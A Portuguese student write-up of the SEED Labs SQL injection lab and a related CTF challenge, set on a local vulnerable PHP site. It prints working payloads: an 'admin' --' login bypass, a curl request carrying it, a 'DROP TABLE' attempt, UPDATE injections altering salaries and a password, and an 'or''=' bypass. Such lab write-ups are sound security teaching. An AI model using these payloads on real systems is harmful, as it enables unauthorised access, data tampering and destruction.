

# SEED Labs - SQL Injection

## Setup

Inicialmente adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executando de seguida os containers fornecidos no lab e abrindo uma shell com acesso direto à base de dados. Utilizamos os seguintes comandos.

`sudo nano etc/hosts`

Em seguida colocamos no final do ficheiro:

`10.9.0.5 www.seed-server.com`

`dcbuild`:docker-compose build

`dcup`:docker-compose up

## Task 1

Começamos por correr o comando  `docker exec -it mysql-10.9.0.6 bash`, para abrir uma shell no container do MySQL. Em seguida usamos `mysql -u root -pdees` para login na base de dados. Para mostrar todas as tabelas dentro da mesma, usamos os seguintes comandos

```sql
use sqllab_users;
show tables;
```

Finalmente para obtermos os dados da Alice corremos `SELECT * FROM credential WHERE name='Alice'`

Resultando em:


## Task 2

### Task 2.1

Dado o trecho de código no ficheiro `unsafe_home.php`, a vulnerabilidade reside no facto de que as variáveis `input_uname` e `hashed_pwd` serem inseridas diretamente na query sem a devida higienização. 

Uma vez que sabemos que o username da conta do administrador é "admin", conseguimos explorar a vulnerabilidade de SQL Injection introduzindo `admin' --` no input do username:

    username: admin' --
    password: (qualquer coisa ou deixar em branco)

O `--` efetivamente transforma o resto da query num comentário, ignorando a verificação da palavra-passe.

Resultando em:


### Task 2.2

Para realizar o mesmo ataque de SQL Injection mas na CLI usamos o comando:

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password='

```

### Task 2.3

Para adicionar uma nova instrução normalmente usariamos um ponto e vírgula ;. No entanto, isto é prevenido como medida de segurança da extensão de PHP _mysqli_, para evitar a execução de múltiplas instruções numa só consulta.

Exemplo de uma tentativa que foi bloqueada por esta contramedida:

    Utilizador: admin'; DROP TABLE credential; --
    Palavra-passe: (qualquer coisa ou deixar em branco)


### Task 3

### Tarefa 3.1
Na página de edição de perfil, inserimos uma injeção SQL no campo `nickname`(mas podia ser qualquer um) usando o comando `', salary=12345678 WHERE name='Alice'; #`.

### Tarefa 3.2
Decidindo punir o nosso chefe utilizámos a página de edição de perfil para reduzir o salário dele, mas desta vez com o comando `', salary = '860' WHERE name='Boby'; #`.

### Tarefa 3.3
Para alterar a password do Boby usámos comando `', password=sha1('construtor') WHERE name='Boby'; #`.

Resultado:


# CTF Semana #8 (SQL Injection)

Começamos por analizar o ficheiro PHP(index.php) para tentar perceber como as queries SQL são formadas a partir do input do utilizador.

Tentámos de seguida os ataques mais comuns a nível de SQL injection.
Primeiro tentamos "or""=" mas não resultou. Tentámos 'or''=' e assim conseguimos obter acesso de admistrador obtendo assim a flag.

